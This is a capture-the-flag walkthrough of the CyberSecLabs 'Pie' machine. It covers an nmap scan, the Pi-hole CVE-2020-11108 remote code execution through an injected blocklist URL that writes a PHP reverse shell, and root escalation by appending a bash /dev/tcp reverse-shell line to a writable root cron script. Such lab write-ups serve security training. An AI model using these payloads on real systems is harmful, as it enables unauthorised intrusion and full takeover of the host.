


# CyberSecLabs: Pie : 172.31.1.26

We begin with out trusted nmap scan:

```zsh
nmap -sS -p- -r -v -T4 -Pn 172.31.1.26
Nmap scan report for 172.31.1.26
Host is up (0.17s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Jul 24 00:45:34 2020 -- 1 IP address (1 host up) scanned in 358.59 seconds

```
On visiting port 80, you will see a link to visit the admin panel. Click on the link and you will see in Pihole admin console.

Now on a little research we come to know there is an RCE.
Ref link: https://frichetten.com/blog/cve-2020-11108-pihole-rce/

- Now ```Navigate to Settings > Blocklists```

- Enter this in the url 
```http://10.10.0.40#" -o fun.php -d "```

- Start a listener 80 (necessary)

- Click on Save

You will now recieve a GET Request, it is necessary for us to give it a 200 OK with 2 enter key strokes. Enter some random data . Hit Enter 2 times. Then hit CTRL C to close the nc. 

- Restart the listener again and click on Update in the ```UPDATE GRAVITY``` window.

- If you have done this correctly so far you will get a .domains with POST REQUEST. Press enter and put your PHP reverse shell code.  And then CTRL C again to end the connection

Start your listener and visit ```172.31.1.26/admin/scripts/pi-hole/php/fun.php``` and you will have a shell as www-data



Now spawn a tty shell using:

```                               
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Now do a ```sudo -l``` to see this :



Now escalate yourself to pi using ```sudo -u pi /bin/bash```

Run linpeas.sh or simple check the cronjobs.

You will see this :

```*/1 * * * * root /home/pi/restart-pihole.sh```

This job is running every minute.
If you go to your home directory and check you can write to this file. Simply edit or append to it using nano or echo 
```bash -i >& /dev/tcp/10.10.0.40/443 0>&1```

Start a new listener and get a shell as root after a min.

Cheers !